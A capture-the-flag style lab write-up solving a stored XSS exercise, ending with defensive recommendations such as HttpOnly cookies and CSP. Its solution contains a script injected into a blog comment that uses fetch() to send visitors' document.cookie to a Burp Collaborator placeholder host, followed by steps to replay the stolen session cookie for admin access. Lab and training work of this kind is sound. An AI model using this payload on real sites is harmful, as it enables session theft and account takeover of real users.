


# Exploiting cross-site scripting to steal cookies

## Description
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

## Solution
1. In collaborator tab, click "Copy to clipboard" to copy a unique Burp Collaborator payload
2. Browse a blog, and submit the payload in comment(insert the Burp Collaborator subdomain)
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
Anyone who views the comment will send a `POST` request containing their cookie to the Burp Collaborator subdomain.
3. In collaborator tab, click "Poll now" and find an HTTP `POST` request which contains viewer's session cookie.

ps:Notice that the request body contains two cookies, while my own request contains only one. So I test them and find out that the `secret` didn't work, but `session` did work.
4. Go to "My account" page, find the `GET` request of `/my-account` and send it to Repeater. Replace the `Cookie: session` with what we obtain from victim's cookie, send the request again. We successfully go into admin's page.


## Question
1. WHY does the victim have two cookies (secret and session), while my browser has only one?
This difference may be caused by different cookies being assigned to the two users, different browsing histories, or differences in cookie scope and attributes.
The session cookie is used for session-based authentication. The exact purpose of secret cannot be determined from the captured request alone.

2. What is the meaning of copying a unique Burp Collaborator payload?
Burp Collaborator is an out-of-band (OAST) testing service that records interactions with specially generated domains. The unique identifier allows Burp to associate incoming DNS, HTTP, or SMTP interactions with the corresponding test.
In this lab, the domain acts as an exfiltration destination. When the injected JavaScript executes, it sends the victim's accessible cookies to this domain.


## Conclusion
1. Apply **context-aware output encoding** or **sanitization**. User-controlled content must be handled safely before being inserted into HTML. A well-designed sanitization policy is necessary when HTML input is intentionally supported.

2. Use the **HttpOnly cookie attribute**. Authentication cookies should be marked HttpOnly to prevent JavaScript from accessing them through document.cookie.

3. Apply a **restrictive Content Security Policy (CSP)**. A properly configured CSP can restrict script execution and outbound connections to unauthorized domains. However, CSP should be treated as defense in depth, not as a replacement for preventing XSS.

4. Protect session cookies with additional security attributes. Use Secure to restrict transmission to HTTPS and an appropriate **SameSite setting** to reduce cross-site request risks.